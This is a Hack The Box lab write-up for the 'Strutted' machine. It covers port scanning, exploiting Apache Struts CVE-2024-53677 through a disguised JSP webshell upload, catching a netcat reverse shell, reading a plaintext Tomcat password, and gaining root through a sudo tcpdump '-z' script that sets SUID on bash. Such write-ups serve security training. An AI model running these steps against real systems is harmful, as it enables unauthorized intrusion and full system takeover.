 ```yaml
---
layout: single
title: Strutted - Hack The Box
excerpt: "'Strutted' is an medium-difficulty Linux machine featuring a website for a company offering image hosting solutions. The website provides a Docker container with the version of Apache Struts that is vulnerable to '[CVE-2024-53677](https://nvd.nist.gov/vuln/detail/CVE-2024-53677)', which is leveraged to gain a foothold on the system. Further enumeration reveals the 'tomcat-users.xml' file with a plaintext password used to authenticate as 'james'. For privilege escalation, we abuse 'tcpdump' while being used with 'sudo' to create a copy of the 'bash' binary with the 'SUID' bit set, allowing us to gain a 'root' shell."
date: 2025-06-19
classes: wide
header:
  teaser: /img2/strutted.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Medium
tags:
  - Information Leakage
  - Apache Struts Exploitation [CVE-2024-53677]
  - Abusing File Upload (Malicious JSP File)
  - Abusing Sudoers Privilege (tcpdump) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
❯ nmap -sS --open -p- --min-rate 5000 -n -Pn 10.10.11.59
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-19 12:46 CEST
Nmap scan report for 10.10.11.59
Host is up (0.063s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.61 seconds
```

- Add domain to /etc/hosts

```bash
❯ echo "10.10.11.59 strutted.htb" >> /etc/hosts
```

## Exploitation

- Apache Struts Exploitation (CVE-2024-53677)

![](/img2/Pasted%20image%2020250619161327.png)

![](/img2/Pasted%20image%2020250619161400.png)

> Primero tenemos que bypassear la restricción de la imagen, esto lo conseguimos con los primeros magik numbers correspondientes a una imagen PNG. Una vez bypasseada la restricción podemos abusar de la vulnerabilidad cambiando el nombre del archivo con la función top.UploadFileName propia de Struts.

![](/img2/Pasted%20image%2020250619161722.png)

![](/img2/Pasted%20image%2020250619161802.png)

> Para abusar de esta subida de archivos, podemos subir una webshell usando jsp.

- Reverse Shell

![](/img2/Pasted%20image%2020250619162358.png)

```bash
❯ nc -nlvp 9000
```

```ruby
listening on [any] 9000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.59] 59578
bash: cannot set terminal process group (1012): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@strutted:~/webapps/ROOT$ 
```

## Post-exploitation

- Find tomcat-users.xml file

```bash
tomcat@strutted:/var$ find / -name tomcat-users.xml 2>/dev/null
```

```ruby
/etc/tomcat9/tomcat-users.xml
```

```bash
tomcat@strutted:/var$ cat /etc/tomcat9/tomcat-users.xml
```

```ruby
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary.

  Built-in Tomcat manager roles:
    - manager-gui    - allows access to the HTML GUI and the status pages
    - manager-script - allows access to the HTTP API and the status pages
    - manager-jmx    - allows access to the JMX proxy and the status pages
    - manager-status - allows access to the status pages only

  The users below are wrapped in a comment and are therefore ignored. If you
  wish to configure one or more of these users for use with the manager web
  application, do not forget to remove the <!.. ..> that surrounds them. You
  will also need to set the passwords to something appropriate.
-->
<!--
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
--->
<!--
  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
</tomcat-users>
```

> Encontramos unas credenciales: IT14d6SSP81k

- Pivoting

```bash
❯ ssh james@10.10.11.59
```

```ruby
The authenticity of host '10.10.11.59 (10.10.11.59)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.59' (ED25519) to the list of known hosts.
james@10.10.11.59's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jun 19 02:59:57 PM UTC 2025

  System load:           0.02
  Usage of /:            70.4% of 5.81GB
  Memory usage:          25%
  Swap usage:            0%
  Processes:             223
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.59
  IPv6 address for eth0: dead:beef::250:56ff:fe94:a5b

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

5 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Jan 21 13:46:18 2025 from 10.10.14.64
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@strutted:~$ 
```

> Únicamente nos podemos conectar mediante ssh, ya que la migración de usuario esta restringida.

- Find sudoers

```bash
james@strutted:~$ sudo -l
```

```ruby
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

- Abusing Sudoers Privilege (tcpdump) 

```bash
james@strutted:~$ COMMAND='chmod u+s /bin/bash'
```

```bash
james@strutted:~$ TF=$(mktemp)
```

```bash
james@strutted:~$ echo "$COMMAND" > $TF
```

```bash
james@strutted:~$ chmod +x $TF
```

```bash
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

```ruby
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
```

```bash
james@strutted:~$ ls -l /bin/bash
```

```ruby
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

```bash
james@strutted:~$ bash -p
```

```ruby
bash-5.1# 
```


![](/img2/Pasted%20image%2020250619170354.png)